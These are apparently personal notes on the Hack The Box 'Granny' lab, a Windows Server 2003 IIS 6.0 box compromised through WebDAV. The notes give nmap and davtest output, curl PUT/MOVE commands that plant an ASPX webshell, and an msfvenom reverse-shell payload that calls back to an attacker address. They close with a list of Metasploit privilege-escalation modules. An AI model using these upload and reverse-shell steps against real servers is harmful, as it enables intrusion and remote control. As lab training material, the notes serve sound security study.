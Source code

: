 # grany


- Windows Server 2003 SP2
- IIS 6.0 + webdav

- Wabdav PUT .txt, MOVE .aspx
- ms14_058 : metasploit windows/local/ms14_058_track_popup_menu (worked 0xdf)
- ms14_070 : metasploit use exploit/windows/local/ms14_070_tcpip_ioctl (worked medium)
- MS14–070 : TCP/IP IOCTL Privilege Escalation 



Walktrough
- https://0xdf.gitlab.io/2019/03/06/htb-granny.html
- https://medium.com/@conma293/htb-granny-walkthrough-6053a65ff33b

## Nmap

````
# nmap -sC -sV -p 80 -oA scans/scripts PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods:
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan:
|   WebDAV type: Unkown
|   Server Type: Microsoft-IIS/6.0
|   Server Date: Wed, 06 Mar 2019 20:13:57 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH                                                                                             
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
````


## 80

Header
````
HTTP/1.1 200 OK
Content-Length: 1433
Content-Type: text/html
Content-Location: http://10.10.10.15/iisstart.htm
Last-Modified: Fri, 21 Feb 2003 15:48:30 GMT
Accept-Ranges: bytes
ETag: "05b3daec0d9c21:358"
Server: Microsoft-IIS/6.0
MicrosoftOfficeWebServer: 5.0_Pub
X-Powered-By: ASP.NET
Date: Wed, 06 Mar 2019 20:15:03 GMT
Connection: close
````
We can tell from “X-Powered-By ASP.NET” that this specific version of IIS Server is executing .NET — which means .aspx format, as opposed to .asp


## Dav

````
# davtest -url http://10.10.10.15
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://10.10.10.15
********************************************************
NOTE    Random string for this session: l8Qkwc
********************************************************
 Creating directory
MKCOL           SUCCEED:                Created http://10.10.10.15/DavTestDir_l8Qkwc
********************************************************
 Sending test files
PUT     txt     SUCCEED:        http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.txt
PUT     jsp     SUCCEED:        http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.jsp
PUT     asp     FAIL
PUT     php     SUCCEED:        http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.php
PUT     cgi     FAIL
PUT     aspx    FAIL
PUT     pl      SUCCEED:        http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.pl
PUT     cfm     SUCCEED:        http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.cfm
PUT     shtml   FAIL
PUT     jhtml   SUCCEED:        http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.jhtml
PUT     html    SUCCEED:        http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.html
********************************************************
 Checking for test file execution
EXEC    txt     SUCCEED:        http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.txt
EXEC    jsp     FAIL
EXEC    php     FAIL
EXEC    pl      FAIL
EXEC    cfm     FAIL
EXEC    jhtml   FAIL
EXEC    html    SUCCEED:        http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.html

********************************************************
/usr/bin/davtest Summary:
Created: http://10.10.10.15/DavTestDir_l8Qkwc
PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.txt
PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.jsp
PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.php
PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.pl
PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.cfm
PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.jhtml
PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.html
Executes: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.txt
Executes: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.html
````

We can PUT .txt

## Dav manual test

````
Let PUT a text file and GET it

root@kali# echo yolo > test.txt
root@kali# curl -X PUT http://10.10.10.15/df.txt -d @test.txt 
root@kali# curl http://10.10.10.15/df.txt
yolo
-d @text.txt : the data for the request are the contents of the file text.txt.
````

Try with .asp
````
# curl -X PUT http://10.10.10.15/df.aspx -d @test.txt 
...
Error 403.1 - Forbidden: Execute access is denied.
...
````

## Dav Upload Webshell

Use KAli webshell /usr/share/webshells/aspx/cmdasp.aspx

````
$ cp /usr/share/webshells/aspx/cmdasp.aspx .
````

Now Upload it as .txt
````
$ curl -X PUT http://10.10.10.15/cmdasp.txt -d @cmdasp.aspx 
````
http://10.10.10.15/cmdasp.txt is served as text


For Binary upload
````
$ curl -X PUT http://10.10.10.15/cmdasp.txt --data-binary @cmdasp.aspx 


## Dav Move file

Let use the webdav MOVE command to deplace/rename our shell file.
    -X MOVE  
    -H 'Destination:http://10.10.10.15/cmdasp.aspx'  : target name
    http://10.10.10.15/cmdasp.txt - our file  

````
$ curl -X MOVE -H 'Destination:http://10.10.10.15/cmdasp.aspx' http://10.10.10.15/cmdasp.txt
````


## Method 2 : Msfvenom+cadaver
````
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.19 LPORT=555 --platform windows -a x86 -e generic/none -f aspx -o go.txt
cadaver 10.10.10.15
ls
put go.txt
move go.txt go.aspx
ls
````
````
nc -nlvp 555
http://10.10.10.15/go.aspx
````

## Elevzation

### MS14-058 : use windows/local/ms14_058_track_popup_menu

Use metasploit...

### ‘KiTrap0D’ MS10–015 via Metasploit.

Use metasploit...

### MS14–070 : TCP/IP IOCTL Privilege Escalation 
https://www.exploit-db.com/exploits/37755
